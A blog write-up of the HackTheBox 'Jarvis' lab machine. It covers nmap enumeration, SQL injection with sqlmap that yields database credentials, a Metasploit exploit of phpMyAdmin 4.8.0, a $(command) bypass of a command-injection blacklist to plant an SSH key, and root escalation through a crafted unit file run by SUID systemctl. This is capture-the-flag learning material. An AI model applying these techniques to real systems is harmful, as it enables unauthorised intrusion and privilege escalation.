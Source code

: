 ```yaml
---
layout: post
title: "HackTheBox: Jarvis write-up"
date: 2019-07-04
excerpt: "Jarvis from Iron Man? Hack the box? Really cool machine with a nice lateral movement based on a Python script plus a nice lesson on linux systemctl! Not to be missed..."
tags: [Hack The Box, Pentesting, Pivoting,  Python,  SQL, Permissions]
comments: true
feature: https://qph.fs.quoracdn.net/main-qimg-a0b80e9e821badea2941d8694cb0d46e.webp
---
```


# Hack The Box: Jarvis machine write-up

Jarvis was one of the funniest and most interesting machines I've done so far. I learned a lot from it. It starts with a SQL injection that can be exploited to obtain some credentials, which are then used to log in to a phpmyadmin panel. Then, the version used is vulnerable, so we can gain command execution as ``www-data``. After that, it's possible to pivot to the user ``pepper`` by running encapsulation commands on a script run as that user. Finally, in order to escalate to root we just need to enumerate SUID binaries and find out that ``systemctl`` is one of those (which is not normal).

Let's start! The IP of the machine is ``10.10.10.143``.

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Sun Jun 30 18:12:38 2019 as: nmap -p- -sV -sC -oN nmap/initial 10.10.10.143
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.047s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 30 18:26:53 2019 -- 1 IP address (1 host up) scanned in 855.12 seconds
```

We can see different things: SSH on the usual port and two http servers on port 80 and 64999. I started by taking a look at port 80 and didn't even need to look at 64999 to root the box, so it was probably a rabbit hole.

#### Port 80 enumeration

We can see that we are going to deal with a hotel booking website. So, I immediately started up DirBuster to run in the background while I tinkered around manually looking at the functionality.

DirBuster didn't find many things, only that there was a phpmyadmin panel under ``/phpmyadmin``. The report can be found [here](/assets/posts_details/Jarvis/files/DirBusterReport.txt).

*Website found on port 80*

![Img](/assets/posts_details/Jarvis/images/website.png)

Manually I bumped into this interesting parameter, which was vulnerable to SQL injection. So I fired up sqlmap and it dumped the database and some credentials:

*``code`` parameter vulnerable*

![Img](/assets/posts_details/Jarvis/images/param.png)

*sqlmap result: ``user`` table from ``mysql`` db*

![Img](/assets/posts_details/Jarvis/images/sqlmap.png)

We can see there is a ``user`` and ``password`` column:

*Obtained credentials*

![Img](/assets/posts_details/Jarvis/images/sqlmap_out.png)

Good! We have the following credentials: ``DBadmin:imissyou``.

#### Gaining a shell

With the creds we can access the phpmyadmin panel and upon inspecting the version we find out it's vulnerable:

*Vulnerable version 4.8.0*

![Img](/assets/posts_details/Jarvis/images/phpmyadmin.png)

Using metasploit:

![Img](/assets/posts_details/Jarvis/images/info1.png)

![Img](/assets/posts_details/Jarvis/images/info2.png)

We can see that the version 4.8.0 and 4.8.1 are vulnerable, so we can immediately set the options and exploit!

*Setting the options and getting a proper shell with python*

![Img](/assets/posts_details/Jarvis/images/metasploit.png)

![Img](/assets/posts_details/Jarvis/images/shell.png)

#### From ``www-data`` to ``pepper``

Once there I started enumerating with the usual ``sudo -l`` and found something really juicy, a python script I could run as ``pepper`` (the user account on the box).

*Output of ``sudo -l``*

![Img](/assets/posts_details/Jarvis/images/sudol.png)

I checked the contents of the [script](/assets/posts_details/Jarvis/files/simpler.py) and found this interesting and dangerous functionality:

```py
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Obviously we need to bypass that blacklist. That is really easy with commands encapsulation: $(command).

My idea was the following: getting a pair of SSH keys, then via the command injection copy my public key to ``.ssh/authorized_keys`` and then just log in through SSH. Simple!

1. I generated the keys with ``ssh-keygen``.
2. I copy my public key key to ``/tmp/mykey``.
3. I copy ``/tmp/mykey`` into ``/home/pepper/.ssh/authorized_keys``. We need to add the ``-p`` option to the script to call that function and remember to add the ``sudo -u pepper`` at the beginning to run as that user.
4. I log in through SSH and can read ``user.txt``.

*Steps above visualized*

![Img](/assets/posts_details/Jarvis/images/steps.png)

![Img](/assets/posts_details/Jarvis/images/ssh.png)

#### From ``pepper`` to ``root``

This privilege escalation was one of the best I've come across so far. It turned out to be simple yet a great learning curve.

I ran the usual enumeration tool, ``LinEnum.sh``, and searched manually for SUID executables to find that ``/bin/systemctl`` was one. If you don't know what a SUID executable means I recommend you read this [article](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/).

As that is not usual, I thought that was the misconfiguration that would give me root. So I created a service from a template like this:

*s.service*

```
[Unit]
Description=TEST

[Service]
ExecStart=/bin/cat /root/root.txt > /tmp/myHASH

[Install]
WantedBy=multi-user.target

```

However, there was a problem: neither``/bin/systemd`` nor ``/etc/systemd`` were writeable. After researching I found out that there exists the `link` option, which basically lets us run it as if it was in the directory.

I ran the following:

```
systemctl link /tmp/s.service
systemctl start s
```

However, no file appeared in the ``/tmp`` directory. I checked the status and it turns out there was an error with which I got the flag (lol):

*Getting root hash*

![Img](/assets/posts_details/Jarvis/images/failed1.png)

However, I was bothered, so I tried to make it work by runnning instead a bash file. So I created a file named ``script.sh`` (creative, I know) with the following contents:

```sh
#!/bin/sh -
/bin/cat /root/root.txt > /tmp/test.txt
```

At first I forgot the first line and that's why there is an error on the next image. After adding it everything ran smoothly and I got my ``test.txt``.

*Making the service work with a bash script*

![Img](/assets/posts_details/Jarvis/images/success1.png)

I was still bothered for not making it work without a bash script so I came up with the idea of using ``/bin/sh -c ´command´`` in the ``ExecStart`` field of the service. And it worked!

*Making the service work without a bash script*

![Img](/assets/posts_details/Jarvis/images/success2.png)

Of course, I could have set up a listener on netcat and then executed a reverse shell instead of just using ``cat`` or ``cp``.

I hope you learned as much as I did! Until next time!

---

*Diego Bernal Adelantado*
